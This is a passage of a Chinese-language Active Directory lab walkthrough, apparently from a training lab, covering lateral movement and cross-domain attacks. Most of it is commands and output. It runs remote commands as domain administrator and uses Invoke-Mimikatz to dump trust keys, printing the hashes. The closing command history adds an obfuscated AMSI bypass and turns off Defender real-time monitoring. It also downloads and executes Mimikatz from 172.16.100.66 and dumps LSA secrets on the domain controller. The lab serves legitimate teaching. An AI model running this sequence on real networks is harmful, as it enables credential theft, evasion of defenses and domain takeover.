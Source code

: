 dcorp-mssql.dollarcorp.moneycorp.local
dcorp-std368.dollarcorp.moneycorp.local
dcorp-appsrv.dollarcorp.moneycorp.local
dcorp-ci.dollarcorp.moneycorp.local
dcorp-mgmt.dollarcorp.moneycorp.local
dcorp-std361.dollarcorp.moneycorp.local
dcorp-std369.dollarcorp.moneycorp.local
dcorp-std366.dollarcorp.moneycorp.local
dcorp-dc.dollarcorp.moneycorp.local
dcorp-std363.dollarcorp.moneycorp.local
dcorp-sql1.dollarcorp.moneycorp.local
dcorp-std370.dollarcorp.moneycorp.local
dcorp-std364.dollarcorp.moneycorp.local
dcorp-std367.dollarcorp.moneycorp.local
dcorp-std359.dollarcorp.moneycorp.local
dcorp-stdadm.dollarcorp.moneycorp.local
dcorp-adminsrv.dollarcorp.moneycorp.local
```

在对应的机器里执行命令
```
PS C:\ad> Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-stdadm
dcorp\administrator
dcorp-stdadm
PS C:\ad> Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-adminsrv
dcorp\administrator
dcorp-adminsrv
PS C:\ad> Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-mssql
dcorp\administrator
dcorp-mssql
```


# 跨域攻击

继续使用dcorp\administrator的shell，枚举所有域信任关系
```
PS C:\ad> Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
```

返回了三个域信任信息

与父域MONEYCORP.LOCAL的信任信息
```
Domain: MONEYCORP.LOCAL (mcorp / S-1-5-21-280534878-1496970234-700767426)
 [  In ] DOLLARCORP.MONEYCORP.LOCAL -> MONEYCORP.LOCAL
    * 1/23/2022 11:37:21 PM - CLEAR   - 28 62 25 ae 13 68 18 ad e4 4f b2 7c 22 64 22 9d 8f f7 ac c3 0e 24 2b 09 00 50 4b 35
        * aes256_hmac       ff3616ac06c24395fb76b08d7cc7f0038cd257869b43eb13ebaf9a3061929a1e
        * aes128_hmac       a2ab6e6daf483e61ed6ffa50856ad277
        * rc4_hmac_nt       13d28ca9e5863231c89eda2b2b1756d7
```

与子域的信任信息
```
Domain: US.DOLLARCORP.MONEYCORP.LOCAL (us / S-1-5-21-3146393536-1393405867-2905981701)
 [  In ] DOLLARCORP.MONEYCORP.LOCAL -> US.DOLLARCORP.MONEYCORP.LOCAL
    * 2/22/2022 1:47:50 AM - CLEAR   - 98 92 74 31 9d 75 ef 06 71 30 f4 23 88 78 d0 8c 63 e6 a1 c4 d3 1d ea c0 81 ea f4 f8
        * aes256_hmac       bcd2a265b3f6626193662328115b78823de5ef3e5d11bcefac08f311e6cfca24
        * aes128_hmac       ac4ab1dc6a1477d36ee37aea2ad48396
        * rc4_hmac_nt       925c2b6bf5771525b47a4a20d624b463
```

与另外一个森林里的eurocorp.local的信任关系
```

[dcorp-adminsrv]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]
[dcorp-adminsrv]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollecti
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> . .\Invoke-Mimikatz.ps1
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> powershell -ep bypass
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') +
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> Invoke-Mimikatz
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents>  Invoke-Mimikatz -Command '"lsadump::lsa /patch"'